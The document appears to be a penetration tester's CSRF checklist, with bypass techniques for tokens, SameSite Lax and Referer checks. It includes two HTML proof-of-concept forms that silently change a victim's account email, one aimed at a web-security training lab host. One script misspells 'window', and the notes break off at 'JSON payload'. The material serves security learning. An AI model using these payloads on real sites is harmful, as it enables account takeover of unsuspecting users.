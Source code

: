 Should test on 'Chrome'
Payload generator: https://csrfshark.github.io/app/
- [ ] Session handling mechanism (token, csrf, JWT)
- [ ] Identify cookie protections (HTTPOnly, Secure, SameSite)
- [ ] Manipulate Referer, then attempt to remove it entirely
- [ ] Identify gadgets and interesting endpoints
### CSRF Token Bypasses
- [ ] Remove CSRF token entirely
- [ ] Changing method POST -> GET (remove csrf token)
- [ ] CSRF token of controlled account
- [ ] CSRF key + CSRF token of different account <- Gadget to set cookie required
- [ ] Double CSRF (just need to be the same) <- Gadget to set cookie required
### SameSite: Lax
- [ ] Method Override
- [ ] Chrome 120s window
### Referer Bypasses
- [ ] Referer header present
```html
<meta name="referrer" content="no-referrer">

<meta name="referrer" content="never">
```
- [ ] Referer url bypass
### Caveats
Form submission payload
- Sending a GET request before form submission
```html
<html> 
	<body> <!-- this is to send a GET request before form submission --> 
	<form action="https://vulnerable-website.com/email/change" method="POST">
		<input type="hidden" name="email" value="pwned@evil-user.net" />
	</form> 
	<img src=http://vulnerable-website.com/path onerror='document.forms[0].submit()'> 
	</body> 
</html>
```
Refresh token onclick (Chromium browser when SameSite not set, 120s time window)
```html
<!DOCTYPE html>
<html lang="en"> 
<body> 
<h1>Form CSRF PoC</h1> 
	<form method="POST" action="https://0a2400b603f490d68220296600b80036.web-security-academy.net/my-account/change-email"> 
		<input type="hidden" name="email" value="pwn@csrf.com"> 
		<input type="submit" value="Submit Request"> 
	</form> 
</body> 
<script> // This CSRF payload when user click on page: // - sends a request to refresh cookie endpoint // - wait for cookie refresh, then submit form (SameSite: Lax bypass) 
	windows.onclick = () => {
		windows.open('https://0a2400b603f490d68220296600b80036.web-security-academy.net/social-login'); 
		setTimeout(sendForm, 10000); 
	} 
	
	function sendForm() { 
		document.forms[0].submit(); 
	} 
</script> 
</html>
```
JSON payload
